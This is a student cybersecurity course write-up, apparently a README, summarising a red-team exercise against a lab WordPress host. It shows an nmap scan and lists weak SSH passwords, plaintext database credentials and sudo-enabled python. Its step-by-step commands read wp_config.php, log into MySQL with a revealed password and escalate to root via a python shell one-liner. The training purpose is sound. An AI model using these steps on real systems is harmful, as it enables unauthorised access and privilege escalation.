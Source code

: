 # Cyber-Security-Final-Project

## Homework 24 - Final Project

### Links

* [Offensive Report](./OffensiveReport.md)
* [Defensive Report](./DefensiveReport.md)
* [Network Report](./NetworkReport.md)

# Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110
#  Nmap scan report for 192.168.1.110
#  Host is up (0.00072s latency).
#  Not shown: 995 closed ports
#  PORT    STATE SERVICE     VERSION
#  22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
#  80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
#  111/tcp open  rpcbind     2-4 (RPC #100000)
#  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
#  445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
#  MAC Address: 00:15:5D:00:04:10 (Microsoft)
#  Device type: general purpose
#  Running: Linux 3.X|4.X
#  OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
#  OS details: Linux 3.2 - 4.9
#  Network Distance: 1 hop
#  Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
#
#  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
#  # Nmap done at Wed Mar 24 17:59:39 2021 -- 1 IP address (1 host up) scanned in 13.33 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios / smb)
  - Port 445 (netbios / smb)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - `wpscan` user enumeration
    - `wpscan` was able to enumerate users and find valid usernames for the
      target system.
    - ![wp-scan-output](./images/wp-scan-output.png)
  - SSH with Password
    - Users are able to ssh into the machine with simply a password, rather than
      requiring an SSH key.
    - User `michael` had an incredibly weak password (same as his username).
  - `python` can run with sudo
    - User `steven` has the ability to run `python` with `sudo`
    - Python can execute arbitrary code on the system, so it is trivial to get
      a shell with root access using this loophole
  - Database credentials in plain text
    - Database credentials for the wordpress site were found written in plain
      text, and stored in the `/var/www/html/wp_config.php`.
    - This allowed us to access the mysql database used for the site, and
      extract password hashes and other confidential information.
  - [CVE-2017-3167](https://access.redhat.com/security/cve/CVE-2017-3167)
    - Authentication bypass is possible on the version of Apache running on the
      server
  - [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
    - Version of `samba` running on the server is insecure and allows for remote
      code execution.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Weak Password / SSH with password
        - After SSHing into the host with `michael`'s credentials, we were able
          to search the `/var/www/html` directory for `flag1`.
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `cd /var/www/html`
        - `grep -ER flag1`
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Weak Password / SSH with password
        - After SSHing into the host with `michael`'s credentials, `flag2` was
          found right in `/var/www`
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `cd /var/www`
        - `cat flag2.txt`
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Database credentials in plain text
        - After getting the database credentials from
          `/var/www/html/wp_config.php`, we connected to the `mysql` database
          and searched for the flag.
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `less /var/www/html/wp_config.php`
        - `mysql --user root --password` # Password is `R@v3nSecurity`
        - `mysql> SELECT post_title, post_content FROM wp_posts WHERE post_title LIKE "flag%";`
        - This returned the value for flag 3
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - `python` can run with sudo
        - After cracking `steven`'s password using `john` and the hash found in
          the database, we determined that user `steven` could run `python` with
          `sudo` permissions.
        - This allows us to use python as sudo to execute a shell program,
          thereby granting us access to the `root` account.
        - `flag4.txt` was found in the `/root` directory, the `root` account's
          home directory.
      - Commands run:
        - `python -c 'import os; os.system("/bin/sh")'`
        - `cat flag4.txt`


